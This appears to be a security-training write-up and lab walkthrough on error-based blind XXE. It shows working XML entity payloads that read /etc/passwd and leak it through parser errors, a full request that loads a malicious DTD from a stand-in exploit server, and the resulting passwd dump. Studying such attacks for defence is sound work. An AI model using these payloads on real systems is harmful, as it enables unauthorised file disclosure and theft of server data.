




# Exploiting blind XXE to retrieve data via error messages

Error-based blind XXE uses the parser's own error handling as a side channel. The target file is read into a parameter entity and then inserted into the path of a deliberately invalid resource. If the application returns the parser exception, the path contains the file content.

## Dynamic error entity

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Execution sequence

1. `%file` reads the target file.
2. `%eval` dynamically creates `%error`.
3. `%error` attempts to load a path that does not exist.
4. The invalid path contains the value read by `%file`.
5. The parser raises an exception.
6. A verbose application response may expose the exception path and therefore the file content.

## Preconditions

- External parameter entities must be enabled.
- The parser must attempt to resolve the invalid resource.
- The application must return useful parser errors.
- The error channel must be large enough for the target value.

## Advantages and limitations

This approach does not require an outbound callback, so it can work when network egress is blocked. It depends on verbose errors, can truncate long files, and can fail when special characters in the file value invalidate the generated URI.

The dedicated lab walkthrough preserves the complete request and response captured in the source material.

---

## Lab walkthrough: Blind XXE retrieval via error messages

This lab parses XML but does not display normal entity values. It provides an exploit server where a malicious external DTD can be hosted. The objective is to make the parser return an error containing `/etc/passwd`.

### 1. Host the external DTD

Place the following content on the lab exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

The invalid `/nonexistent/` path is intentional. When the parser expands `%file`, the file contents become part of the path in the resulting error.




### 2. Load the external DTD

The source capture uses an XML stock-check request like this. Replace the host, session, and exploit-server values with fresh lab values:

```http
POST /product/stock HTTP/2
Host: 0abe009a04ecf3ed805a0866004c00f1.web-security-academy.net
Cookie: session=wbxzmJq9I7xIMT6LOa9n8vORs8SNf05l
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abe009a04ecf3ed805a0866004c00f1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 234
Origin: https://0abe009a04ecf3ed805a0866004c00f1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "https://EXPLOIT-SERVER.example/exploit">
    %xxe;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```



### 3. Read the parser error

The application responds with a `400 Bad Request` and includes the file content in the invalid-path error:

```text
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2419

"XML parser exited with error: java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/bin/bash
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/home/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false (No such file or directory)"
```





### Why the attack works

The parser includes the resolved entity value in a file path before raising the exception. Because the application returns verbose parser errors, the error becomes a data-exfiltration channel even though normal XML values are not reflected.
